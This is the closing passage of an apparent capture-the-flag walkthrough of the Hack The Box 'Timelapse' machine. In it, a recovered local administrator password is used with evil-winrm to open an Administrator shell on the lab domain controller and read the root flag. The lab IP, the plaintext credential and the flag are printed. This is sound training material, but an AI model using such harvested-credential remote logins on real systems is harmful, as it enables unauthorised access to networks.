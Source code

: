 So we have the local administrator password, and we know we're on the DC01 box that it relates to. Let's drop out of this shell, and connect as admin:

```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -u Administrator -p '1;s(T[,8/k6k8+n1e8Jh+Q@r' -S       

Evil-WinRM shell v3.3
Warning: SSL enabled
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Let's grab the root flag to finish the box:

```text
*Evil-WinRM* PS C:\Users> type trx\desktop\root.txt
3b0e8ff4e0ba0e044abaf52dd07d342d
```

All done. See you next time.
